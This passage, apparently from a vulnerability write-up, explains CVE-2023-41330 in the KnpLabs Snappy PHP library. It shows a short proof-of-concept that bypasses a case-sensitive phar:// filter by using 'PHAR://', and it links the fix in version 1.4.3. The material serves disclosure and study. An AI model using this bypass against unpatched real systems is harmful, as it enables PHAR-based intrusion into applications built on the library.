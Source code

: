 
If the vulnerable code uses strpos() for wrapper checks without normalizing the case, the check becomes bypassable. So, using PHAR:// instead of phar:// allows us to bypass the filter.

POC:

```php
<?php

...

use Knp\Snappy\Pdf;

$snappy = new Pdf('/usr/bin/wkhtmltopdf');
try{
    $snappy->generateFromHtml('<h1>Hello</h1>', 'PHAR://test.phar');
}catch(\Exception $e){}
?>
```

![image](./images/image15.png)

And this is CVE-2023-41330. After that a commit to use parse_url on version 1.4.3 have fixed both above CVE

[CVE-2023-41330 fix](https://github.com/KnpLabs/snappy/commit/d3b742d61a68bf93866032c2c0a7f1486128b67e)
